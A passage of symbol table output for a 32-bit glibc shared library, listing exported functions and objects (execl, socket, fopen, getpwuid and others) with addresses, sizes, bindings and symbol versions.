    33: 000ff2a0   262 FUNC    GLOBAL DEFAULT   12 __vswprintf_chk@@GLIBC_2.4
    34: 0012a510   336 FUNC    GLOBAL DEFAULT   12 _IO_file_fopen@GLIBC_2.0
    35: 000fb3a0    57 FUNC    GLOBAL DEFAULT   12 pthread_cond_signal@@GLIBC_2.3.2
    36: 0012d600    57 FUNC    GLOBAL DEFAULT   12 pthread_cond_signal@GLIBC_2.0
    37: 0006f760  1180 FUNC    GLOBAL DEFAULT   12 _IO_file_fopen@@GLIBC_2.1
    38: 00036050    51 FUNC    WEAK   DEFAULT   12 strtoull_l@@GLIBC_2.3
    39: 0011d480   112 FUNC    GLOBAL DEFAULT   12 xdr_short@@GLIBC_2.0
    40: 000ea780    97 FUNC    GLOBAL DEFAULT   12 lfind@@GLIBC_2.0
    41: 00064ff0   247 FUNC    GLOBAL DEFAULT   12 _IO_padn@@GLIBC_2.0
    42: 0007ddc0  1394 FUNC    WEAK   DEFAULT   12 strcasestr@@GLIBC_2.1
    43: 000b81a0   765 FUNC    GLOBAL DEFAULT   12 __libc_fork@@GLIBC_PRIVATE
    44: 0011da00   180 FUNC    GLOBAL DEFAULT   12 xdr_int64_t@@GLIBC_2.1.1
    45: 0009d610    56 FUNC    WEAK   DEFAULT   12 wcstod_l@@GLIBC_2.3
    46: 000efd10    63 FUNC    WEAK   DEFAULT   12 socket@@GLIBC_2.0
    47: 0011a5b0   177 FUNC    GLOBAL DEFAULT   12 key_encryptsession_pk@@GLIBC_2.1
    48: 0007f0a0   162 FUNC    WEAK   DEFAULT   12 argz_create@@GLIBC_2.0
    49: 00066730    68 FUNC    GLOBAL DEFAULT   12 putchar_unlocked@@GLIBC_2.0
    50: 00083960    52 FUNC    GLOBAL DEFAULT   12 __strpbrk_g@@GLIBC_2.1.1
    51: 00111920   229 FUNC    GLOBAL DEFAULT   12 xdr_pmaplist@@GLIBC_2.0
    52: 000fc140    58 FUNC    GLOBAL DEFAULT   12 __stpcpy_chk@@GLIBC_2.3.4
    53: 00040b80   187 FUNC    GLOBAL DEFAULT   12 __xpg_basename@@GLIBC_2.0
    54: 0010de40   248 FUNC    GLOBAL DEFAULT   12 __res_init@@GLIBC_2.2
    55: 000fdde0    63 FUNC    GLOBAL DEFAULT   12 __ppoll_chk@@GLIBC_2.16
    56: 000f5970   490 FUNC    WEAK   DEFAULT   12 fgetsgent_r@@GLIBC_2.10
    57: 00067530   218 FUNC    WEAK   DEFAULT   12 getc@@GLIBC_2.0
    58: 000977a0   232 FUNC    WEAK   DEFAULT   12 wcpncpy@@GLIBC_2.0
    59: 0006a370   266 FUNC    GLOBAL DEFAULT   12 _IO_wdefault_xsputn@@GLIBC_2.2
    60: 000e6c40    68 FUNC    GLOBAL DEFAULT   12 mkdtemp@@GLIBC_2.2
    61: 000344a0    64 FUNC    WEAK   DEFAULT   12 srand48_r@@GLIBC_2.0
    62: 0002f910   119 FUNC    GLOBAL DEFAULT   12 sighold@@GLIBC_2.1
    63: 000c51a0    64 FUNC    GLOBAL DEFAULT   12 __sched_getparam@@GLIBC_2.0
    64: 00078cd0    30 FUNC    GLOBAL DEFAULT   12 __default_morecore@@GLIBC_2.0
    65: 00108cc0    51 FUNC    GLOBAL DEFAULT   12 iruserok@@GLIBC_2.0
    66: 000430c0   164 FUNC    GLOBAL DEFAULT   12 cuserid@@GLIBC_2.0
    67: 0002dab0    48 FUNC    WEAK   DEFAULT   12 isnan@@GLIBC_2.0
    68: 00033c20   235 FUNC    WEAK   DEFAULT   12 setstate_r@@GLIBC_2.0
    69: 00096f60    89 FUNC    GLOBAL DEFAULT   12 wmemset@@GLIBC_2.0
    70: 00000000     0 OBJECT  GLOBAL DEFAULT  ABS GCC_3.0
    71: 0006ecc0    38 FUNC    GLOBAL DEFAULT   12 _IO_file_stat@@GLIBC_2.0
    72: 00127880   137 FUNC    GLOBAL DEFAULT   12 __register_frame_info_bas@@GCC_3.0
    73: 0007f630   833 FUNC    WEAK   DEFAULT   12 argz_replace@@GLIBC_2.0
    74: 000be200    88 FUNC    GLOBAL DEFAULT   12 globfree64@@GLIBC_2.1
    75: 000fad20    52 FUNC    WEAK   DEFAULT   12 argp_usage@@GLIBC_2.1
    76: 000ef500    64 FUNC    GLOBAL DEFAULT   12 timerfd_gettime@@GLIBC_2.8
    77: 0016bb58     4 OBJECT  GLOBAL DEFAULT   15 _sys_nerr@@GLIBC_2.12
    78: 0016bb68     4 OBJECT  GLOBAL DEFAULT   15 _sys_nerr@GLIBC_2.4
    79: 0016bb60     4 OBJECT  GLOBAL DEFAULT   15 _sys_nerr@GLIBC_2.1
    80: 0016bb5c     4 OBJECT  GLOBAL DEFAULT   15 _sys_nerr@GLIBC_2.0
    81: 0016bb64     4 OBJECT  GLOBAL DEFAULT   15 _sys_nerr@GLIBC_2.3
    82: 000eeb50    64 FUNC    GLOBAL DEFAULT   12 clock_adjtime@@GLIBC_2.14
    83: 001af7b4     4 OBJECT  GLOBAL DEFAULT   32 getdate_err@@GLIBC_2.1
    84: 0007f230    85 FUNC    WEAK   DEFAULT   12 argz_next@@GLIBC_2.0
    85: 0012d4d0    83 FUNC    GLOBAL DEFAULT   12 getspnam_r@GLIBC_2.0
    86: 000b81a0   765 FUNC    GLOBAL DEFAULT   12 __fork@@GLIBC_2.0
    87: 000f3dc0   470 FUNC    GLOBAL DEFAULT   12 getspnam_r@@GLIBC_2.1.2
    88: 000c5270    52 FUNC    GLOBAL DEFAULT   12 __sched_yield@@GLIBC_2.0
    89: 000a8850    48 FUNC    GLOBAL DEFAULT   12 __gmtime_r@@GLIBC_2.0
    90: 0010de40   248 FUNC    WEAK   DEFAULT   12 res_init@GLIBC_2.0
    91: 00040a10    78 FUNC    GLOBAL DEFAULT   12 l64a@@GLIBC_2.0
    92: 0012a660   144 FUNC    GLOBAL DEFAULT   12 _IO_file_attach@GLIBC_2.0
    93: 0006fc00   186 FUNC    GLOBAL DEFAULT   12 _IO_file_attach@@GLIBC_2.1
    94: 000839d0    53 FUNC    GLOBAL DEFAULT   12 __strstr_g@@GLIBC_2.1.1
    95: 000b2d20    56 FUNC    WEAK   DEFAULT   12 wcsftime_l@@GLIBC_2.3
    96: 00064e60   365 FUNC    WEAK   DEFAULT   12 gets@@GLIBC_2.0
    97: 00063990   244 FUNC    WEAK   DEFAULT   12 fflush@@GLIBC_2.0
    98: 00112ac0   100 FUNC    GLOBAL DEFAULT   12 _authenticate@@GLIBC_2.1
    99: 00103100   306 FUNC    GLOBAL DEFAULT   12 getrpcbyname@@GLIBC_2.0
   100: 000695c0    47 FUNC    GLOBAL DEFAULT   12 putc_unlocked@@GLIBC_2.0
   101: 000e9ab0    42 FUNC    GLOBAL DEFAULT   12 hcreate@@GLIBC_2.0
   102: 0007a7c0    82 IFUNC   GLOBAL DEFAULT   12 strcpy@@GLIBC_2.0
   103: 000409d0    63 FUNC    GLOBAL DEFAULT   12 a64l@@GLIBC_2.0
   104: 0011d200    74 FUNC    GLOBAL DEFAULT   12 xdr_long@@GLIBC_2.0
   105: 0002ea50   162 FUNC    WEAK   DEFAULT   12 sigsuspend@@GLIBC_2.0
   106: 00019940     2 FUNC    GLOBAL DEFAULT   12 __libc_init_first@@GLIBC_2.0
   107: 000f0930    95 FUNC    GLOBAL DEFAULT   12 shmget@@GLIBC_2.0
   108: 0006c410   323 FUNC    GLOBAL DEFAULT   12 _IO_wdo_write@@GLIBC_2.2
   109: 00055e70    56 FUNC    GLOBAL DEFAULT   12 getw@@GLIBC_2.0
   110: 000e6870   391 FUNC    GLOBAL DEFAULT   12 gethostid@@GLIBC_2.0
   111: 00033690    58 FUNC    GLOBAL DEFAULT   12 __cxa_at_quick_exit@@GLIBC_2.10
   112: 0007ed20    74 IFUNC   GLOBAL DEFAULT   12 __rawmemchr@@GLIBC_2.1
   113: 00055fe0    60 FUNC    WEAK   DEFAULT   12 flockfile@@GLIBC_2.0
   114: 000a6150   112 FUNC    WEAK   DEFAULT   12 wcsncasecmp_l@@GLIBC_2.3
   115: 0007f010    65 FUNC    WEAK   DEFAULT   12 argz_add@@GLIBC_2.0
   116: 000eeeb0    60 FUNC    GLOBAL DEFAULT   12 inotify_init1@@GLIBC_2.9
   117: 000fe190   681 FUNC    GLOBAL DEFAULT   12 __backtrace_symbols@@GLIBC_2.1
   118: 000835d0    86 FUNC    GLOBAL DEFAULT   12 __strncpy_byn@@GLIBC_2.1.1
   119: 000701c0   530 FUNC    GLOBAL DEFAULT   12 _IO_un_link@@GLIBC_2.0
   120: 00067b80   383 FUNC    WEAK   DEFAULT   12 vasprintf@@GLIBC_2.0
   121: 00098e60    68 FUNC    GLOBAL DEFAULT   12 __wcstod_internal@@GLIBC_2.0
   122: 00117d30   462 FUNC    GLOBAL DEFAULT   12 authunix_create@@GLIBC_2.0
   123: 000f1e00    19 FUNC    GLOBAL DEFAULT   12 _mcount@@GLIBC_2.0
   124: 000ff5a0    83 FUNC    GLOBAL DEFAULT   12 __wcstombs_chk@@GLIBC_2.4
   125: 00097710    70 IFUNC   GLOBAL DEFAULT   12 wmemcmp@@GLIBC_2.0
   126: 000a8850    48 FUNC    WEAK   DEFAULT   12 gmtime_r@@GLIBC_2.0
   127: 000dcc80    64 FUNC    WEAK   DEFAULT   12 fchmod@@GLIBC_2.0
   128: 000fc6c0   259 FUNC    GLOBAL DEFAULT   12 __printf_chk@@GLIBC_2.3.4
   129: 000838c0    38 FUNC    GLOBAL DEFAULT   12 __strspn_cg@@GLIBC_2.1.1
   130: 00068140   436 FUNC    WEAK   DEFAULT   12 obstack_vprintf@@GLIBC_2.0
   131: 0002ebd0    74 FUNC    WEAK   DEFAULT   12 sigwait@@GLIBC_2.0
   132: 0001a160    56 FUNC    GLOBAL DEFAULT   12 __cmpdi2@GLIBC_2.0
   133: 000b5ac0   174 FUNC    GLOBAL DEFAULT   12 setgrent@@GLIBC_2.0
   134: 000fec40   354 FUNC    GLOBAL DEFAULT   12 __fgetws_chk@@GLIBC_2.4
   135: 000fb8a0   270 FUNC    GLOBAL DEFAULT   12 __register_atfork@@GLIBC_2.3.2
   136: 000f30a0    91 FUNC    WEAK   DEFAULT   12 iswctype_l@@GLIBC_2.3
   137: 000f1e40   138 FUNC    WEAK   DEFAULT   12 wctrans@@GLIBC_2.0
   138: 000e6620    60 FUNC    GLOBAL DEFAULT   12 acct@@GLIBC_2.0
   139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
   140: 00043810 19923 FUNC    GLOBAL DEFAULT   12 _IO_vfprintf@@GLIBC_2.0
   141: 000b87f0   348 FUNC    GLOBAL DEFAULT   12 execl@@GLIBC_2.0
   142: 000d69d0    28 FUNC    WEAK   DEFAULT   12 re_set_syntax@@GLIBC_2.0
   143: 000ff850     7 FUNC    GLOBAL DEFAULT   12 htonl@@GLIBC_2.0
   144: 0012da00    83 FUNC    GLOBAL DEFAULT   12 getprotobynumber_r@GLIBC_2.0
   145: 000db750  2806 FUNC    GLOBAL DEFAULT   12 wordexp@@GLIBC_2.1
   146: 00101cb0   470 FUNC    GLOBAL DEFAULT   12 getprotobynumber_r@@GLIBC_2.1.2
   147: 00102000   172 FUNC    GLOBAL DEFAULT   12 endprotoent@@GLIBC_2.0
   148: 0002da70    51 FUNC    WEAK   DEFAULT   12 isinf@@GLIBC_2.0
   149: 00027910    39 FUNC    GLOBAL DEFAULT   12 __assert@@GLIBC_2.2
   150: 000694c0     8 FUNC    GLOBAL DEFAULT   12 clearerr_unlocked@@GLIBC_2.0
   151: 000c3260   988 FUNC    GLOBAL DEFAULT   12 fnmatch@GLIBC_2.0
   152: 000c3260   988 FUNC    GLOBAL DEFAULT   12 fnmatch@@GLIBC_2.2.3
   153: 00114020    43 FUNC    GLOBAL DEFAULT   12 xdr_keybuf@@GLIBC_2.0
   154: 000ee4a0    32 FUNC    GLOBAL DEFAULT   12 gnu_dev_major@@GLIBC_2.3.3
   155: 00027d20    23 FUNC    GLOBAL DEFAULT   12 __islower_l@@GLIBC_2.1
   156: 000b3960   204 FUNC    WEAK   DEFAULT   12 readdir@@GLIBC_2.0
   157: 0011dbf0    77 FUNC    GLOBAL DEFAULT   12 xdr_uint32_t@@GLIBC_2.1
   158: 000ff860    14 FUNC    GLOBAL DEFAULT   12 htons@@GLIBC_2.0
   159: 000b9c20   614 FUNC    WEAK   DEFAULT   12 pathconf@@GLIBC_2.0
   160: 0002f990   119 FUNC    GLOBAL DEFAULT   12 sigrelse@@GLIBC_2.1
   161: 000344e0    78 FUNC    WEAK   DEFAULT   12 seed48_r@@GLIBC_2.0
   162: 00056610  1399 FUNC    GLOBAL DEFAULT   12 psiginfo@@GLIBC_2.10
   163: 00110040  1372 FUNC    GLOBAL DEFAULT   12 __nss_hostname_digits_dot@@GLIBC_2.2.2
   164: 000b8650    52 FUNC    GLOBAL DEFAULT   12 execv@@GLIBC_2.0
   165: 0004d490    35 FUNC    GLOBAL DEFAULT   12 sprintf@@GLIBC_2.0
   166: 00067900   233 FUNC    GLOBAL DEFAULT   12 _IO_putc@@GLIBC_2.0
   167: 000ef020    66 FUNC    GLOBAL DEFAULT   12 nfsservctl@@GLIBC_2.0
   168: 00084610   204 FUNC    GLOBAL DEFAULT   12 envz_merge@@GLIBC_2.0
   169: 000b0bb0    56 FUNC    WEAK   DEFAULT   12 strftime_l@@GLIBC_2.3
   170: 00024920  1927 FUNC    GLOBAL DEFAULT   12 setlocale@@GLIBC_2.0
   171: 0007e470    37 FUNC    GLOBAL DEFAULT   12 memfrob@@GLIBC_2.0
   172: 00097c50   592 FUNC    WEAK   DEFAULT   12 mbrtowc@@GLIBC_2.0
   173: 000339b0    97 FUNC    WEAK   DEFAULT   12 srand@@GLIBC_2.0
   174: 000f2af0   121 FUNC    WEAK   DEFAULT   12 iswcntrl_l@@GLIBC_2.3
   175: 00123710   156 FUNC    WEAK   DEFAULT   12 getutid_r@@GLIBC_2.0
   176: 000b8ae0  1159 FUNC    WEAK   DEFAULT   12 execvpe@@GLIBC_2.11
   177: 000f20d0   164 FUNC    WEAK   DEFAULT   12 iswblank@@GLIBC_2.1
   178: 00079be0     2 FUNC    GLOBAL DEFAULT   12 tr_break@@GLIBC_2.0
   179: 000fbb90   110 FUNC    GLOBAL DEFAULT   12 __libc_pthread_init@@GLIBC_PRIVATE
   180: 000feb20   252 FUNC    GLOBAL DEFAULT   12 __vfwprintf_chk@@GLIBC_2.4
   181: 0006d2a0   174 FUNC    GLOBAL DEFAULT   12 fgetws_unlocked@@GLIBC_2.2
   182: 000dd300   125 FUNC    WEAK   DEFAULT   12 __write@@GLIBC_2.0
   183: 000e6470   149 FUNC    GLOBAL DEFAULT   12 __select@@GLIBC_2.0
   184: 000f2790   105 FUNC    GLOBAL DEFAULT   12 towlower@@GLIBC_2.0
   185: 000dec30  1007 FUNC    WEAK   DEFAULT   12 ttyname_r@@GLIBC_2.0
   186: 00063f60    48 FUNC    GLOBAL DEFAULT   12 fopen@@GLIBC_2.1
   187: 00128c90   142 FUNC    GLOBAL DEFAULT   12 fopen@GLIBC_2.0
   188: 000c9ae0   105 FUNC    GLOBAL DEFAULT   12 gai_strerror@@GLIBC_2.1
   189: 000f3520   436 FUNC    GLOBAL DEFAULT   12 fgetspent@@GLIBC_2.0
   190: 0007b470   507 FUNC    GLOBAL DEFAULT   12 strsignal@@GLIBC_2.0
   191: 00097320   213 FUNC    WEAK   DEFAULT   12 wcsncpy@@GLIBC_2.0
   192: 0012d9a0    91 FUNC    GLOBAL DEFAULT   12 getnetbyname_r@GLIBC_2.0
   193: 0007aff0    82 IFUNC   GLOBAL DEFAULT   12 strncmp@@GLIBC_2.0
   194: 001018d0   654 FUNC    GLOBAL DEFAULT   12 getnetbyname_r@@GLIBC_2.1.2
   195: 001020b0   220 FUNC    GLOBAL DEFAULT   12 getprotoent_r@@GLIBC_2.1.2
   196: 0011c390    17 FUNC    GLOBAL DEFAULT   12 svcfd_create@@GLIBC_2.0
   197: 000e7e00    64 FUNC    WEAK   DEFAULT   12 ftruncate@@GLIBC_2.0
   198: 0012da60    53 FUNC    GLOBAL DEFAULT   12 getprotoent_r@GLIBC_2.0
   199: 00083630    44 FUNC    GLOBAL DEFAULT   12 __strncpy_gg@@GLIBC_2.1.1
   200: 00114190   138 FUNC    GLOBAL DEFAULT   12 xdr_unixcred@@GLIBC_2.1
   201: 00029930    72 FUNC    WEAK   DEFAULT   12 dcngettext@@GLIBC_2.2
   202: 00111a10   125 FUNC    GLOBAL DEFAULT   12 xdr_rmtcallres@@GLIBC_2.0
   203: 000657e0   421 FUNC    GLOBAL DEFAULT   12 _IO_puts@@GLIBC_2.0
   204: 0010c160   258 FUNC    GLOBAL DEFAULT   12 inet_nsap_addr@@GLIBC_2.0
   205: 0010b920   305 FUNC    WEAK   DEFAULT   12 inet_aton@@GLIBC_2.0
   206: 000e89a0   217 FUNC    GLOBAL DEFAULT   12 ttyslot@@GLIBC_2.0
   207: 001af8dc     4 OBJECT  GLOBAL DEFAULT   32 __rcmd_errstr@@GLIBC_2.0
   208: 000db6f0    90 FUNC    GLOBAL DEFAULT   12 wordfree@@GLIBC_2.1
   209: 000d77d0   136 FUNC    GLOBAL DEFAULT   12 posix_spawn_file_actions_@@GLIBC_2.2
   210: 000b4a60    80 FUNC    GLOBAL DEFAULT   12 getdirentries@@GLIBC_2.0
   211: 00071ac0    42 FUNC    GLOBAL DEFAULT   12 _IO_unsave_markers@@GLIBC_2.0
   212: 00070cd0    55 FUNC    GLOBAL DEFAULT   12 _IO_default_uflow@@GLIBC_2.0
   213: 000361d0    68 FUNC    GLOBAL DEFAULT   12 __strtold_internal@@GLIBC_2.0
   214: 000fefe0    70 FUNC    GLOBAL DEFAULT   12 __wcpcpy_chk@@GLIBC_2.4
   215: 001ac180     4 OBJECT  GLOBAL DEFAULT   31 optind@@GLIBC_2.0
   216: 00083b30   161 FUNC    GLOBAL DEFAULT   12 __strcpy_small@@GLIBC_2.1.1
   217: 000340d0    54 FUNC    GLOBAL DEFAULT   12 erand48@@GLIBC_2.0
   218: 000998f0    64 FUNC    WEAK   DEFAULT   12 wcstoul_l@@GLIBC_2.3
   219: 000ee890    66 FUNC    WEAK   DEFAULT   12 modify_ldt@@GLIBC_2.1
   220: 001af7f8     4 OBJECT  GLOBAL DEFAULT   32 argp_program_version@@GLIBC_2.1
   221: 00077140    20 FUNC    GLOBAL DEFAULT   12 __libc_memalign@@GLIBC_2.0
   222: 000efd90   102 FUNC    GLOBAL DEFAULT   12 isfdtype@@GLIBC_2.0
   223: 000ed270   126 FUNC    GLOBAL DEFAULT   12 getfsfile@@GLIBC_2.0
   224: 00083ca0    53 FUNC    GLOBAL DEFAULT   12 __strcspn_c1@@GLIBC_2.1.1
   225: 00083ce0    68 FUNC    GLOBAL DEFAULT   12 __strcspn_c2@@GLIBC_2.1.1
   226: 00034270    42 FUNC    GLOBAL DEFAULT   12 lcong48@@GLIBC_2.0
   227: 000b6b60   154 FUNC    GLOBAL DEFAULT   12 getpwent@@GLIBC_2.0
   228: 00083d30    79 FUNC    GLOBAL DEFAULT   12 __strcspn_c3@@GLIBC_2.1.1
   229: 000d7520    75 FUNC    WEAK   DEFAULT   12 re_match_2@@GLIBC_2.0
   230: 0010f050   246 FUNC    GLOBAL DEFAULT   12 __nss_next2@@GLIBC_PRIVATE
   231: 001ad8d8     4 OBJECT  WEAK   DEFAULT   32 __free_hook@@GLIBC_2.0
   232: 000b58b0   494 FUNC    GLOBAL DEFAULT   12 putgrent@@GLIBC_2.1
   233: 00102f00   220 FUNC    GLOBAL DEFAULT   12 getservent_r@@GLIBC_2.1.2
   234: 0007f480    82 FUNC    WEAK   DEFAULT   12 argz_stringify@@GLIBC_2.0
   235: 0012dbc0    53 FUNC    GLOBAL DEFAULT   12 getservent_r@GLIBC_2.0
   236: 0006cbf0   244 FUNC    GLOBAL DEFAULT   12 open_wmemstream@@GLIBC_2.4
   237: 0010a590   190 FUNC    GLOBAL DEFAULT   12 inet6_opt_append@@GLIBC_2.5
   238: 000fbe00    65 FUNC    WEAK   DEFAULT   12 clock_getcpuclockid@@GLIBC_2.17
   239: 00102da0   176 FUNC    GLOBAL DEFAULT   12 setservent@@GLIBC_2.0
   240: 000ef470    64 FUNC    GLOBAL DEFAULT   12 timerfd_create@@GLIBC_2.8
   241: 0007b0b0    70 IFUNC   GLOBAL DEFAULT   12 strrchr@@GLIBC_2.0
   242: 001228e0   310 FUNC    WEAK   DEFAULT   12 posix_openpt@@GLIBC_2.2.1
   243: 0011b710    73 FUNC    GLOBAL DEFAULT   12 svcerr_systemerr@@GLIBC_2.0
   244: 00069580    56 FUNC    GLOBAL DEFAULT   12 fflush_unlocked@@GLIBC_2.0
   245: 00027d40    23 FUNC    GLOBAL DEFAULT   12 __isgraph_l@@GLIBC_2.1
   246: 000ff260    59 FUNC    GLOBAL DEFAULT   12 __swprintf_chk@@GLIBC_2.4
   247: 0006dac0    52 FUNC    GLOBAL DEFAULT   12 vwprintf@@GLIBC_2.2
   248: 000b7b80   171 FUNC    WEAK   DEFAULT   12 wait@@GLIBC_2.0
   249: 00065d80   286 FUNC    WEAK   DEFAULT   12 setbuffer@@GLIBC_2.0
   250: 00078810    79 FUNC    WEAK   DEFAULT   12 posix_memalign@@GLIBC_2.2
   251: 000d8510    29 FUNC    GLOBAL DEFAULT   12 posix_spawnattr_setschedp@@GLIBC_2.2
   252: 00083420    35 FUNC    GLOBAL DEFAULT   12 __strcpy_g@@GLIBC_2.1.1
   253: 00106ea0   289 FUNC    GLOBAL DEFAULT   12 getipv4sourcefilter@@GLIBC_2.3.4
   254: 000fe9f0   273 FUNC    GLOBAL DEFAULT   12 __vwprintf_chk@@GLIBC_2.4
   255: 000fdc80   101 FUNC    GLOBAL DEFAULT   12 __longjmp_chk@@GLIBC_2.11
   256: 00055750   139 FUNC    GLOBAL DEFAULT   12 tempnam@@GLIBC_2.0
   257: 00027970    43 FUNC    GLOBAL DEFAULT   12 isalpha@@GLIBC_2.0
   258: 000393d0    43 FUNC    WEAK   DEFAULT   12 strtof_l@@GLIBC_2.3
   259: 000d73b0   232 FUNC    GLOBAL DEFAULT   12 regexec@@GLIBC_2.3.4
   260: 000ee310   121 FUNC    WEAK   DEFAULT   12 llseek@@GLIBC_2.0
   261: 000ed3a0    37 FUNC    GLOBAL DEFAULT   12 revoke@@GLIBC_2.0
   262: 0012cc40    67 FUNC    GLOBAL DEFAULT   12 regexec@GLIBC_2.0
   263: 000d74a0    58 FUNC    WEAK   DEFAULT   12 re_match@@GLIBC_2.0
   264: 000ea260  1085 FUNC    WEAK   DEFAULT   12 tdelete@@GLIBC_2.0
   265: 000ddcd0    60 FUNC    WEAK   DEFAULT   12 pipe@@GLIBC_2.0
   266: 000df1d0    80 FUNC    GLOBAL DEFAULT   12 readlinkat@@GLIBC_2.4
   267: 000fee80    82 FUNC    GLOBAL DEFAULT   12 __wctomb_chk@@GLIBC_2.4
   268: 000eb7d0    22 FUNC    WEAK   DEFAULT   12 get_avphys_pages@@GLIBC_2.0
   269: 00117f00   395 FUNC    GLOBAL DEFAULT   12 authunix_create_default@@GLIBC_2.0
   270: 00066e80   161 FUNC    GLOBAL DEFAULT   12 _IO_ferror@@GLIBC_2.0
   271: 00103250   306 FUNC    GLOBAL DEFAULT   12 getrpcbynumber@@GLIBC_2.0
   272: 000b9fa0  1827 FUNC    GLOBAL DEFAULT   12 __sysconf@@GLIBC_2.2
   273: 0007f060    59 FUNC    WEAK   DEFAULT   12 argz_count@@GLIBC_2.0
   274: 0007ab10    76 FUNC    GLOBAL DEFAULT   12 __strdup@@GLIBC_2.0
   275: 000fd300    91 FUNC    GLOBAL DEFAULT   12 __readlink_chk@@GLIBC_2.4
   276: 0004c730   378 FUNC    WEAK   DEFAULT   12 register_printf_modifier@@GLIBC_2.10
   277: 0010d0b0    40 FUNC    GLOBAL DEFAULT   12 __res_ninit@@GLIBC_2.2
   278: 000e6050   127 FUNC    WEAK   DEFAULT   12 setregid@@GLIBC_2.0
   279: 000e4a00   176 FUNC    WEAK   DEFAULT   12 tcdrain@@GLIBC_2.0
   280: 00106fd0   296 FUNC    GLOBAL DEFAULT   12 setipv4sourcefilter@@GLIBC_2.3.4
   281: 00098f50    68 FUNC    GLOBAL DEFAULT   12 wcstold@@GLIBC_2.0
   282: 000e4b80    45 FUNC    GLOBAL DEFAULT   12 cfmakeraw@@GLIBC_2.0
   283: 00055270   238 FUNC    GLOBAL DEFAULT   12 perror@@GLIBC_2.0
   284: 000f0860   108 FUNC    GLOBAL DEFAULT   12 shmat@@GLIBC_2.0
   285: 00065300   995 FUNC    GLOBAL DEFAULT   12 _IO_proc_open@@GLIBC_2.1
   286: 000e5340   140 FUNC    GLOBAL DEFAULT   12 __sbrk@@GLIBC_2.0
   287: 00129250   702 FUNC    GLOBAL DEFAULT   12 _IO_proc_open@GLIBC_2.0
   288: 00072270    38 FUNC    GLOBAL DEFAULT   12 _IO_str_pbackfail@@GLIBC_2.0
   289: 001ac874     8 OBJECT  GLOBAL DEFAULT   31 __tzname@@GLIBC_2.0
   290: 00042210   132 FUNC    GLOBAL DEFAULT   12 rpmatch@@GLIBC_2.0
   291: 001254b0    38 FUNC    GLOBAL DEFAULT   12 __getlogin_r_chk@@GLIBC_2.4
   292: 00056530    35 FUNC    GLOBAL DEFAULT   12 __isoc99_sscanf@@GLIBC_2.7
   293: 000dcb00   131 FUNC    WEAK   DEFAULT   12 statvfs64@@GLIBC_2.1
   294: 001ac87c     4 OBJECT  GLOBAL DEFAULT   31 __progname@@GLIBC_2.0
   295: 00078220   127 FUNC    WEAK   DEFAULT   12 pvalloc@@GLIBC_2.0
   296: 0011aeb0   424 FUNC    GLOBAL DEFAULT   12 __libc_rpc_getport@@GLIBC_PRIVATE
   297: 00028340    72 FUNC    WEAK   DEFAULT   12 dcgettext@@GLIBC_2.0
   298: 0004d3e0    35 FUNC    WEAK   DEFAULT   12 _IO_fprintf@@GLIBC_2.0
   299: 0006c560   618 FUNC    GLOBAL DEFAULT   12 _IO_wfile_overflow@@GLIBC_2.2
   300: 00113140   504 FUNC    GLOBAL DEFAULT   12 registerrpc@@GLIBC_2.0
   301: 00098d70    76 FUNC    GLOBAL DEFAULT   12 wcstoll@@GLIBC_2.1
   302: 000d7bd0    14 FUNC    GLOBAL DEFAULT   12 posix_spawnattr_setpgroup@@GLIBC_2.2
   303: 001ade00     4 OBJECT  WEAK   DEFAULT   32 _environ@@GLIBC_2.0
   304: 000ede70   444 FUNC    GLOBAL DEFAULT   12 qecvt_r@@GLIBC_2.0
   305: 000ed840   420 FUNC    GLOBAL DEFAULT   12 ecvt_r@@GLIBC_2.0
   306: 0012a6f0    45 FUNC    GLOBAL DEFAULT   12 _IO_do_write@GLIBC_2.0
   307: 0006fcc0    45 FUNC    GLOBAL DEFAULT   12 _IO_do_write@@GLIBC_2.1
   308: 00125570    32 FUNC    GLOBAL DEFAULT   12 getutxid@@GLIBC_2.1
   309: 00096fc0    49 FUNC    WEAK   DEFAULT   12 wcscat@@GLIBC_2.0
   310: 00070820   107 FUNC    GLOBAL DEFAULT   12 _IO_switch_to_get_mode@@GLIBC_2.0
   311: 000fdd80    26 FUNC    GLOBAL DEFAULT   12 __fdelt_warn@@GLIBC_2.15
   312: 00097ea0   559 FUNC    WEAK   DEFAULT   12 wcrtomb@@GLIBC_2.0
   313: 001afa40     4 OBJECT  GLOBAL DEFAULT   32 __key_gendes_LOCAL@@GLIBC_2.1
   314: 000e42b0   132 FUNC    GLOBAL DEFAULT   12 sync_file_range@@GLIBC_2.6
   315: 0002dfc0    10 FUNC    GLOBAL DEFAULT   12 __signbitf@@GLIBC_2.1
   316: 001ad974     4 OBJECT  GLOBAL DEFAULT   32 _obstack@GLIBC_2.0
   317: 00100fa0   379 FUNC    GLOBAL DEFAULT   12 getnetbyaddr@@GLIBC_2.0
   318: 000ef810   121 FUNC    WEAK   DEFAULT   12 connect@@GLIBC_2.0
   319: 00097400    61 FUNC    GLOBAL DEFAULT   12 wcspbrk@@GLIBC_2.0
   320: 0002dab0    48 FUNC    GLOBAL DEFAULT   12 __isnan@@GLIBC_2.0
   321: 00000008     4 TLS     GLOBAL DEFAULT   22 errno@@GLIBC_PRIVATE
   322: 000dcf80    55 FUNC    GLOBAL DEFAULT   12 __open64_2@@GLIBC_2.7
   323: 0002e490    95 FUNC    WEAK   DEFAULT   12 _longjmp@@GLIBC_2.0
   324: 00083850    38 FUNC    GLOBAL DEFAULT   12 __strcspn_cg@@GLIBC_2.1.1
   325: 000844b0    70 FUNC    GLOBAL DEFAULT   12 envz_remove@@GLIBC_2.0
   326: 000299c0    64 FUNC    WEAK   DEFAULT   12 ngettext@@GLIBC_2.2
   327: 0002df10   166 FUNC    WEAK   DEFAULT   12 ldexpf@@GLIBC_2.0
   328: 00066f40    58 FUNC    WEAK   DEFAULT   12 fileno_unlocked@@GLIBC_2.0
   329: 001af7d0     4 OBJECT  GLOBAL DEFAULT   32 error_print_progname@@GLIBC_2.0
   330: 0002e2f0    24 FUNC    GLOBAL DEFAULT   12 __signbitl@@GLIBC_2.1
   331: 00160880    16 OBJECT  GLOBAL DEFAULT   15 in6addr_any@@GLIBC_2.1
   332: 000e7be0   186 FUNC    GLOBAL DEFAULT   12 lutimes@@GLIBC_2.3
   333: 0007cda0    82 IFUNC   WEAK   DEFAULT   12 stpncpy@@GLIBC_2.0
   334: 000e9970    64 FUNC    GLOBAL DEFAULT   12 munlock@@GLIBC_2.0
   335: 000e7e90    74 FUNC    WEAK   DEFAULT   12 ftruncate64@@GLIBC_2.1
   336: 000b6d70   306 FUNC    GLOBAL DEFAULT   12 getpwuid@@GLIBC_2.0
